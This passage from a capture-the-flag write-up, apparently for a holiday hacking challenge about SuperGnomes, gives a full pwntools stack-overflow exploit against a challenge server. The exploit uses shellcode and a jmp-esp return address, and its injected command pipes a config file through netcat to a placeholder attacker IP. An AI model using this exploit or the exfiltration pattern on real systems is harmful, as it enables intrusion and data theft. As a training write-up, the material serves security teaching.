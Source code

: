 Note that EBP needs to be restored to a valid value so that the process can continue to write its output to a valid socket

The final exploitation script using pwntools looks like this

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("54.233.105.81", 4242) # SG-05 server

print conn.recvuntil('users')
conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

tmpfile = open("shellc1.asm", "r")
tmp = tmpfile.read()
subesp = asm(tmp)

scfile = open("shellc2.asm", "r")
sc = scfile.read()
shellcode = asm(sc)

pwn = shellcode
pwn += 'A'*(0x68-len(shellcode))
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'
pwn += pack(0x0804936b) #eip control here! jmp esp which is pointing to the below instructions
pwn += subesp
cmd = '/bin/cat /gnome/www/files/gnome.conf | /bin/nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT\x00'
pwn += cmd
pwn += 'C'*(0x56-len(subesp)-len(cmd))

conn.send(pwn)
pause(9)    # pause to keep the socket alive. program will write reply into the socket
results = conn.recvall()
print results

fh = open('results', 'w')   # write response to file, handles file downloads
fh.write(results)
fh.close
```

The command string will cat the gnome.conf file and transfer it back to me through netcat

##### 9) Based on evidence you recover from the SuperGnomes' packet capture ZIP files and any staticky images you find, what is the nefarious plot of ATNAS Corporation?

After gaining access to all the Supergnomes, download all the packet capture ZIP files and factory_cam images.
